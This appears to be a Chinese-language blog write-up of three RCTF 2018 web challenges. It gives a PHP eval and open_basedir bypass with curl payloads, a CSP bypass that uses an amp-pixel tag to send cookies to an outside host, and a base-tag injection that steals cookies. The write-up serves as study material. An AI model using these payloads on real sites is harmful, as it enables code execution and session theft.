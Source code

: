 ```yaml
---
title: RCTF2018 Web Writeup
date: 2018-05-23 23:48:54
tags:
- xss
- open_basedir
---
```


RCTF刚好赶上了完成毕设的时间，没办法只接触了部分题目，可惜的是，其中很多题目都不是特别有意思，这里只整理部分我参与的..

<!--more-->


# r-cursive

```
LUL dat font

http://r-cursive.ml

hint: If you get stuck after arbitary code execution, try to escape the sandbox. phpinfo may help you figure out how the sandbox works.
```

蛮神奇的一题，题目代码是这样的

```
 <?php
$token = sha1($_SERVER['REMOTE_ADDR']);
$dir = '../sandbox/'.$token.'/';
is_dir($dir) ?: mkdir($dir);
is_file($dir.'index.php') ?: file_put_contents($dir.'index.php', str_replace('#SHA1#', $token, file_get_contents('./template')));
switch($_GET['action'] ?: ''){
    case 'go':
        header('Location: http://'.$token.'.sandbox.r-cursive.ml:1337/');
        break;
    case 'reset':
        system('rm -rf '.$dir);
        break;
    default:
        show_source(__FILE__);
}
?>
```

访问`?action=go`之后，我们会自动跳到属于自己ip的沙盒中，打开题目，我们就能看到源码

```
 <?php
sha1($_SERVER['REMOTE_ADDR']) === 'f6e5575f93a408c5cb709c73eaa822cb09b4d0f7' ?: die();
';' === preg_replace('/[^\W_]+\((?R)?\)/', NULL, $_GET['cmd']) ? eval($_GET['cmd']) : show_source(__FILE__);
```

简单来说就是这里只能调用函数，没办法传入字符串，绕过比较简单。

```
curl "http://xxxx.sandbox.r-cursive.ml:1337/?cmd=eval(next(getallheaders()));" -H "User-Agent: phpinfo();" -H "Accept: asdasd/asdasda"
```

通过获取headers的方式，我们可以通过设置ua来传入字符串，成功执行我想要的命令。这里我们先看看phpinfo的内容。

```
disable_classes:
GlobIterator,DirectoryIterator,FilesystemIterator,RecursiveDirectoryIterator

disable_functions
system,shell_exec,passthru,exec,popen,proc_open,pcntl_exec,mail,putenv,apache_setenv,mb_send_mail,assert,dl,set_time_limit,ignore_user_abort,symlink,link

open_basedir
/var/www/sandbox/47933bf3ea6c89fb70bb9c63930d414a4c4a70ae/:/tmp/
```

由于前两项的设置，导致后面open_baseidr完全没办法绕过，但我们可以用glob协议来列一部分目录。

```
if ($dh = opendir('glob:///*/*/*/*')) {while (($file = readdir($dh)) !== false) {echo $file.' ';}closedir($dh);}
```

经过一段时间的锁定，我们可以发现flag只能是在`/var/www/sandbox/init.php`文件里，但问题在于，在禁用了这些函数之后，我们无法绕过这里的限制。

所以我们可能需要想更巧妙地方法来绕过这里的限制，对于不同的请求来说，`open_basedir`都是不同的，那么服务端就需要获取请求的地址，然后做解析，这部分的配置一般是由apache来做的，但如果我们请求的host中不包含这个sha1的字符串，那么是不是我们可以让后端无法获取到这个字符串，就会将`open_basedir`设置为`/var/www/sandbox`，我们就可以读取这个目录下的文件了。

需要注意的是，当前目录也会随之改变，而当前目录是没有index.php的，所以我们需要加上目录。

```
ubuntu@VM-181-46-ubuntu:~$ curl "http://47933bf3ea6c89fb70bb9c63930d414a4c4a70ae.sandbox.r-cursive.ml:1337/47933bf3ea6c89fb70bb9c63930val(next(getallheaders()));" -H "User-Agent: show_source('../init.php');" -H "Host: .sandbox.r-cursive.ml"


ini_set("open_basedir", $_SERVER['DOCUMENT_ROOT']."/:/tmp/");
// flag: RCTF{apache_mod_vhost_alias_should_be_configured_correctly}
```

# amp

```
Building the future web, together. 
```

题目特别简单，页面内含有CSP，比较松但却开启了nonce CSP，完成的CSP头如下
```
script-src 'nonce-88f68fa5b7eb8a01de8b8e63b5fb0a6e' 'strict-dynamic'; style-src 'unsafe-inline'
```

题目中也很明白，没有任何标签过滤，然后页面中引入了google amp的框架，那么我们只要找一个amp文档中的gadgets，然后获取当前页面cookie就好了，不知道是不是我语法不对...

在翻阅文档的时候发现一个特殊的标签

[https://www.ampproject.org/docs/analytics/analytics_basics#variable-substitution](https://www.ampproject.org/docs/analytics/analytics_basics#variable-substitution)

这个标签不仅仅会发送请求，还有读取cookie的支持，就像这样
```
<amp-pixel src="https://foo.com/pixel?cid=CLIENT_ID(site-user-id-cookie-fallback-name)"></amp-pixel>
```

其中site-user-id-cookie-fallback-name为cookie的名字，这样发送到服务端就会获取到返回flag了。

# rblog1 #

```
get `document.cookie`
http://rblog.2018.teamrois.cn
```

还算是一道比较神奇的题目，怎么说呢，预期解感觉脑洞成分大很多，非预期解蛮有意思的。

站内功能很普通，与0ctf中的club题目一致，提交表单包括title和content，其中title没有转义，effect可控，出现点在引入js的地方。

页面中使用了nonce CSP

```
default-src 'none'; script-src 'nonce-4fad2fa7830a95f09b6e6b3691e37d18'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'
```

本来我们的关注点都在effect这里
```
<script nonce="cb34dfb2531ce837c8ecdc0cae067938" src="/assets/js/effects/[you control].min.js"></script>
```

但script是个特殊标签，src无法覆盖，而且外链是大于内联js，所以我们也无法执行js，唯一的办法是通过上传接口上传文件，然后通过设置effect为`../../../uploads/xxx`来引入，则为可控，但上传接口对文件有判断，无法轻易fuzz，所以暂时把这里放下了。

这里我们用了非预期的解法，base标签

在title我们引入的标签没有被转义，而且CSP中没有设置base标签，那么我们直接通过base标签设置当前域，其中的相对目录就会引入我们想要的js。

拿到cookie
```
115.159.200.107 - - [20/May/2018:07:02:09 +0000] "GET /?flag=RCTF{why_the_heck_no_mimetype_for_webp_in_apache2_in_8012};%20hint_for_rBlog_Rev.2=http://rblog.2018.teamrois.cn/blog.php/52c533a30d8129ee4915191c57965ef4c7718e6d HTTP/1.1" 200 2261
```

